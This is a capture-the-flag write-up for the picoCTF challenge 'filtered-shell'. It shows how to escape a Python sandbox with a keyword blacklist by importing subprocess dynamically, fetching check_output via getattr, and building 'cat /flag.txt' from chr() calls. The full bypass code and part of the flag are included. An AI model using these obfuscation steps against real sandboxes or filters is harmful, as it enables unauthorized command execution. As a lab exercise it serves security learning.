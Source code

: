 # 🧠 Filter Bypass in Python Sandbox (picoCTF: filtered-shell)

**Author:** picoCTF Team  
**Category:** Reverse Engineering / Python  
**Difficulty:** 🟠 Medium  
**Tags:** `Python`, `Filter Bypass`, `Subprocess`, `Restricted Execution`, `picoCTF`

---

## 📘 Description

> You're given access to a restricted Python shell with filters on keywords, functions, and arguments. Can you still run commands to read the flag?

---

## 🚀 Challenge Deployment

- 🌐 URL: [picoCTF: filtered-shell](https://play.picoctf.org/practice/challenge/484?category=1&difficulty=2&page=1)  
- 🎯 Goal: Execute OS command despite blacklists on `import`, `os`, `subprocess`, and command strings

---

## 🔥 Vulnerability: Insecure Sandbox Filter

The server evaluates Python input but uses naïve blacklist filtering:
- Direct keywords like `import`, `os`, `cat`, `/flag.txt` are **blocked**
- Function calls and even arguments are inspected

This opens the door for **obfuscated function chaining and dynamic imports**.

---

## 💣 Exploitation Steps

### Step 1: Bypass `import` using `__import__`

```python
m = __import__('sub' + 'process')
```
✅ This dynamically loads the subprocess module without triggering filters.

### Step 2: Access function without calling it directly
```python

func = getattr(m, 'check_output')
```
✅ Avoids detection of check_output() call.

### Step 3: Obfuscate the command using chr()
```python

cmd = chr(99)+chr(97)+chr(116)  # 'cat'
arg = chr(47)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)  # '/flag.txt'
```
✅ Hides "cat" and "/flag.txt" from the filter.

### Step 4: Execute the payload
```python
func([cmd, arg])
```
📥 Output:

```
picoCTF{sst1_f1lt3r...}
```
